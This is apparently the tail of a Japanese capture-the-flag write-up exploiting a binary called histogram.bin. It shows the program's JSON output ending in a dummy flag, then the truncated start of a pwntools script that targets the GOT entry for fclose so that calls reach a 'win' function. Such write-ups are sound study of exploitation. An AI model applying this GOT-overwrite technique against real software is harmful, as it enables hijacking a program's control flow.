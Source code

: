```
{"status":"success","result":{"wsum":[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],"hsum":[0,0,520,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],"map":[[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,520]]}}DUMMY{The flag exists in the working directory of histogram.bin}
```

無事に末尾にダミーのフラグが生えていることがわかる。

## Code

CSVの生成コードのみ

```python
from pwn import process, ELF


def dump_dict_by_hex(d):
    for k, v in d.items():
        print(f"{k}: {hex(v)}")


elf = ELF("./histogram.bin")

addrs = {
    "win": elf.functions.win.address,
    "plt_fclose": 0x401060,        # change this value to `win` by increments
    "got_fclose": elf.got.fclose,  # target to write
```

[^1]: おそらくNaNとの比較が常にFalseになるんだと思う
[^2]: 解き直しにおいては競技をしている時よりあらゆるリソースに余裕があるので仕様や命令レベルで調査と検証をしているが、おそらくgdbで値を覗いたり軽くC言語のコードを書いて検証した方が早い